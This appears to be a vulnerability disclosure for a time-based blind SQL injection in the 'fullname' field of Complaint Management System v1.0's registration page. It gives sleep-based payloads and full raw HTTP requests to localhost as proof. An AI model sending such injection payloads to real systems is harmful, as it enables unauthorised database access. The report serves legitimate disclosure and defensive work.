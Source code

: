 # Complaint Management System v1.0 has SQL injection

BUG_Author: mckayyang

Website source code address: https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: /Complaint Management System/users/registration.php

POST parameter 'fullname' exists SQL injection vulnerability

Payload1:fullname=a' and (select 1 from (select(sleep(10)))x) and 't'='t

```
POST /Complaint%20Management%20System/users/registration.php HTTP/1.1
Host: localhost
Content-Length: 140
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/users/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close

fullname=a%27+and+%28select+1+from+%28select%28sleep%2810%29%29%29x%29+and+%27t%27%3D%27t&email=b%40gmail.com&password=c&contactno=d&submit=
```

The server response time is 10 seconds

![image](https://github.com/HibuMk/bug_report/blob/main/sql1.png)

Payload2:fullname=a' and (select 1 from (select(sleep(15)))x) and 't'='t

```
POST /Complaint%20Management%20System/users/registration.php HTTP/1.1
Host: localhost
Content-Length: 140
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/users/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close

fullname=a%27+and+%28select+1+from+%28select%28sleep%2815%29%29%29x%29+and+%27t%27%3D%27t&email=b%40gmail.com&password=c&contactno=d&submit=
```

The server response time is 15 seconds

![image](https://github.com/HibuMk/bug_report/blob/main/sql2.png)
